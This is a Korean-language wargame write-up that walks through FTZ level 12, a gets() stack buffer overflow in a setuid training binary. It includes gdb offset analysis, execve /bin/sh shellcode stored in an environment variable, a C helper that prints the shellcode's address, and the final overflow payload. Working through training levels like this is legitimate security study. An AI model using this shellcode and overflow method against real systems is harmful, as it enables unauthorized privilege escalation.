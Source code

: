 # FTZ Level12

#### ID : level12 PW: it is like this
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 

attackme 프로그램에 level13의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
      char str[256];                  # 256바이트 크기의 문자형 배열
      
      setreuid(3093, 3093);           #level13의 프로세스 ID
      printf("문장을 입력하세요.\n");
      gets(str);                      #gets 함수로 배열 str에 입력을 받음
      printf("%s\n", str);            #입력받은 내용 출력
}
```
```gets``` 함수에서 BOF가 일어날 수 있다!!<br><br>
우리의 목적을 생각해보자.<br>
버퍼에 버퍼크기보다 넘치는 양을 담아 오버플로우를 일으킨 후 ret까지 도달해 ret에 쉘 코드 주소를 넣을 것이다. 
그렇다면..!!!<br>
1. str[256]에서 ret까지의 거리 구하기
2. 환경변수로 쉘 코드 등록하고 위치 찾는 코드를 짜 주소 확인하기
3. ret 위치까지 갈 페이로드 작성하기
4. 작성한 페이로드로 공격해 쉘 획득하기!!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>

**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 esp에서 0x108만큼 빼고 있다. 여기서 0x108은 10진수로 264이다.<br>
필요한 공간은 str배열의 크기인 256일텐데 왜 264나 자리를 마련했을까?<br>
바로 dummy다! 8byte의 dummy가 존재하는 것이다. ~~(왜 존재할까)~~<br><br>

ret전에 sfp 4바이트가 존재할테니 결론적으로 말하면<br>
**str에서 ret까지의 거리는 총 268byte이다!**<br><br>

자, 2번으로 넘어가자.<br>
**다음과 같이 환경변수를 작성해보자.**쉘 코드는 구글에서 돌아다니는 25byte짜리를 가져왔다. <br>
*(다음에 쉘 코드에 대해 더 공부해봐야겠다....)*<br>
```
export shellcode=$(python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
```

**이제 쉘 코드의 주소를 알아보자**<br>
```vi shell.c``` vi로 쉘 주소 알아내는 코드를 작성해보자<br>
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
      printf("%p\n", getenv("shellcode"));
      return 0;
}
```
그리고 만든 c코드를 컴파일 한 후 <br>
```gcc -o shell shell.c```<br>
실행시킨다!<br>
```./shell```<br>
그럼 주소가 떨어진다<br>
필자의 경우 **0xbffffef4**였다.<br>

**이제 페이로드를 작성해보자.**<br>
페이로드는 ```(python -c 'print "A"*268+"\xf4\xfe\xff\xbf";cat)|./attackme```가 될 것이다.<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*268+"\xf4\xfe\xff\xbf";cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level13 Password is "~~". 라고 나올 것이다!!
